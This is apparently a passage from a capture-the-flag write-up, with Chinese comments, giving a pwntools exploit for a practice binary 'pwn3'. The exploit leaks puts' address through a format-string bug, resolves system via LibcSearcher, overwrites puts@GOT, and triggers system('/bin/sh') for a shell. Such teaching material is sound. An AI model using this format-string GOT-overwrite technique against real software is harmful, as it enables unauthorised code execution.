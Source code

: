 ```python
sh.sendline('/bin/sh;')
sh.sendline('dir') # system('/bin/sh')
sh.interactive()
```

- 顺序逻辑版：

```python
from pwn import *
from LibcSearcher import LibcSearcher

context.log_level = 'debug'
pwn3 = ELF('./pwn3')
sh = process('./pwn3')
name = ""
for i in "sysbdmin":
    name += chr(ord(i) - 1)  # 通过IDA分析得到的正确的用户名 # rxraclhm
sh.recvuntil('Name (ftp.hacker.server:Rainism):')
sh.sendline(name)  # send name # 用计算得出的正确用户名，通过一开始的用户名校验
# .got.plt:0804A028 off_804A028     dd offset puts          ; DATA XREF: _puts↑r
puts_got = pwn3.got['puts']  # get the addr of puts # 获取 puts 函数的got表项地址
log.success('puts got : ' + hex(puts_got))  # log

gdb.attach(sh) # gdb attach

# ====== step 1: put ====== # put file name 111, content b"%8$s" + p32(puts_got)
sh.sendline('put')
sh.recvuntil('please enter the name of the file you want to upload:')
sh.sendline('1111')
sh.recvuntil('then, enter the content:')
sh.sendline(b"%8$s" + p32(puts_got))
# ====== step 2: get ====== # get 1111, got actual addr of puts
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
sh.sendline('1111')
data = sh.recv()
puts_addr = u32(data[:4])  # 获取puts函数的真实地址
# ====== step 3: system_addr ====== get addr of system using LibcSearcher
libc = LibcSearcher("puts", puts_addr)  # 根据 puts 函数的真实地址，比对得出libc的版本(一般多个)
system_offset = libc.dump('system')  # 该版 libc system 函数的偏移量
puts_offset = libc.dump('puts')  # 该版 libc puts 函数的偏移量
system_addr = system_offset - puts_offset + puts_addr  # 该版 libc system 函数的真实地址
log.success('system actual addr = ' + hex(system_addr))  # log
# ====== step 4: put ====== modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr}) # 格式化字符串的偏移是 7，希望在 puts_got 地址处写入 system_addr 地址
print("payload:", payload, "\npayload:", payload.hex())
sh.sendline('put')
sh.recvuntil('please enter the name of the file you want to upload:')
sh.sendline('/bin/sh;')  # file name
sh.recvuntil('then, enter the content:')
sh.sendline(payload)  # file content
# ====== step 5: get ======
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
sh.sendline('/bin/sh;')  # file name
# ====== step 6: dir ======
sh.sendline('dir')  # system('/bin/sh')
sh.interactive()
```
